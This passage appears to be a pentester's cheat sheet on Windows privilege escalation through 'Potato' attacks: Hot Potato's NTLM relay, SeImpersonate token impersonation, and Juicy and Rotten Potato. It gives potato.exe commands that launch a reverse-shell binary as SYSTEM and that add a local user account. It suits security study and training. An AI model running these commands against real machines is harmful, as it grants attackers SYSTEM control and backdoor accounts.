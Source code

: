 ___

## Hot Potato

**Hot Potato** is the name of an attack that uses a spoofing attack along with an NTLM relay attack to gain SYSTEM privileges.

The attack tricks Windows into authenticating as the SYSTEM user to a fake HTTP server using NTLM. 

The NTLM credentials then get relayed to SMB in order to gain command execution.

This attack works on Windows 7, 8, early versions of Windows 10, and their server counterparts.

```cmd
.\potato.exe -ip <IP> -cmd "C:\PrivEsc\reverse.exe" -enable_httpservertrue -enable_defendertrue -enable_spooftrue -enable_exhausttrue
```

> Target is a Windows 7

```
potato.exe -ip <local ip> -cmd "c:\\windows\\system32\\cmd.exe /K net users username password /add" -disable_exhaust true
```

___

## Token impersonation

Service accounts can be given special privileges in order for them to run their services, and cannot be logged into directly.

Service accounts are generally configured with these two privileges:

- `SeImpersonate`
- `SeAssignPrimaryToken`

They allow the account to impersonate the access tokens of other users (SYSTEM included).

> Some ways to get a shell from service accounts: reverse shell on IIS web server, SQLi on MSSQL, etc. 

```
whoami /priv
```

### Rotten Potato

Service accounts could intercept a SYSTEM ticket and use it to impersonate the SYSTEM user.

### Juicy Potato

It works the same way as Rotten Potato, but the authors did extensive research and found many more exploit methods.

- <https://github.com/ohpe/juicy-potato>

### Rogue Potato
